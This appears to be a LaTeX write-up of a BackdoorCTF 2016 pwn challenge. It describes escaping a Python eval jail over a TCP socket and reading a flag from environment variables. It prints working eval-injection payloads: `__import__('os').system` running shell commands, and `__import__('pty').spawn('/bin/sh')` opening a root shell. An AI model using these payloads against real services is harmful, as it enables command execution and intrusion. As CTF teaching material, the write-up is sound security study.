 \documentclass{article}


\usepackage{framed}
\usepackage{fancybox}
\usepackage[english]{babel}


\begin{document}

    \noindent { \Huge \texttt{WORST-PWN-EVER} }

    \vspace{1\baselineskip plus 1\parskip}

    \noindent competition: \texttt{BackdoorCTF 2016}
    \newline class: pwn
    \newline points: 100

    \vspace{1\baselineskip plus 1\parskip}

    \ovalbox{ \begin{minipage}{.95\textwidth}
        \vspace{1ex}
        \noindent tocttou is an enviornmentalist. But some say he has
        a~vicious motive and he uses nature to hide his dark side. We
        found a~weird shell on his amazon (pun inteded) web services.
        Can you tell us what is he upto?
        \newline Tip: he might shut down the machine if he notices you
        ---~and he will (maybe in 45 seconds).
        \newline Access: nc hack.bckdr.in 9008
        \newline Created by: Ashish Chaudhary
        \vspace{1ex}
    \end{minipage} }

    \vspace{2\baselineskip plus 2\parskip}

    \ovalbox{ \begin{minipage}{.95\textwidth}
        \vspace{1ex}
        \begin{center} { \large tl;dr } \end{center}
        \hrule
        \vspace{1ex}
        We have been given an Python eval jail over a TCP socket.
        The solution is to retreive an environment variable using one
        of the classic builtin hacks, for example:
        \begin{verbatim}
__import__('os').system('env|grep -iE ".*f.*l.*a.*g"')
        \end{verbatim}
    \end{minipage} }

    \vspace{1\baselineskip plus 1\parskip}


\section*{Task walkthrough}

    After establishing a~connection to the given server a~prompt
    is returned. Let's try some random fuzzing...
    First let's see what happens when we press \texttt{CTRL+D}
    right away:
\begin{verbatim}
> EOFError: EOF when reading a line
--> WHAT ARE YOU DOING HERE? >-[
\end{verbatim}
    Let's check if it is a~system shell:
\begin{verbatim}
> echo x
SyntaxError: unexpected EOF while parsing (<string>, line 1)
--> WHAT ARE YOU DOING HERE? >-[
\end{verbatim}
    No, it's definitely not a~system shell. It looks like
    a~Python interpreter. Let's check this theory then:
\begin{verbatim}
> 1+1
\end{verbatim}
    No response, no error ---~it looks promising. Let's check
    then if we can see some Python errors:
\begin{verbatim}
> 1+'x'*[]
TypeError: can't multiply sequence by non-int of type 'list'
\end{verbatim}
    Bingo! If it really is an old \texttt{eval} jail, then
    we could escape using a~classic builtin hacks. Let's check
    that:
\begin{verbatim}
> str(__import__('os').system('echo x'))
x
\end{verbatim}
    Got it! Let's get a shell and start looking around:
\begin{verbatim}
> __import__('pty').spawn('/bin/sh')
sh-4.3#
\end{verbatim}

    After looking through available files for a~few minutes
    and finding nothing useful, we noticed the task description
    contains a~clue ---~the word \emph{environmentalist}
    suggests checking environment variables.

    \vspace{1\baselineskip plus 1\parskip}

    \begin{framed} \begin{minipage}{.85\textwidth}
        { \footnotesize \begin{verbatim}
sh-4.3# env
HOSTNAME=43523caef67d
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_F_L_A_G_='xxxxxxxxxxxxxxx CENSORED xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'
PWD=/scripts
SHLVL=3
HOME=/root
_=/usr/bin/env
        \end{verbatim} }
    \end{minipage} \end{framed}

\end{document}
